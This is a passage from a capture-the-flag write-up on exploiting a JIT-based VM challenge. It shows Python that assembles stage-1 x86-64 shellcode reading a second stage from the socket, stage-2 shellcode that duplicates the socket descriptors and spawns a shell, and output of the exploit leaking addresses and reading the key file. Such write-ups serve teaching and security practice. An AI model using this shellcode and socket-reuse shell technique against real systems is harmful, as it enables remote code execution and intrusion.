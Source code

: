 The way function arguments work in our little VM is that they are copied verbatim
into the registers before the function executes. I.e. argument 0 goes into register 0
etc.  It is slightly annoying that we have only 9 arguments that we can pass, so
our stage 1 shellcode can only have 28 bytes. We use a `read` syscall to load stage 2
right after stage1:

{% highlight python %}
stage1 = x86_64.assemble("""
    push 4   ; this is the socket fd
    pop rdi
    mov rsi, {buf}
    push 0xff
    pop rdx
    mov rax, 0
    syscall
    """.format(buf=buf+28))
stage1 += "\x90"*(28 - len(stage1))
{% endhighlight %}

And we choose to also reuse the socket file descriptor for our final shell:

{% highlight python %}
stage2 = (
    # this code just calls dup2(0,0); dup2(0,1); dup2(0,2)
    x86_64_shellcode.dup2_rdi +
    # and then spawns a shell
    x86_64_shellcode.shell
)
assert len(stage2) <= 0xff
{% endhighlight %}

The [final exploit](https://github.com/kitctf/writeups/blob/master/gits2015/giggles/exploit.py)
in action:

    $ python2 exploit.py
    [*] register base = 0x7fffb7b91900
    [*] exe base = 0x7fef16437000
    [*] jit buffer = 0x7fef16431000
    [*] Enjoy your shell :)
    ls
    client.py
    giggles
    giggles.c
    key
    cat key
    I can't think of anything creative to put in here right now

And yes, it used to give you the flag during the contest :)
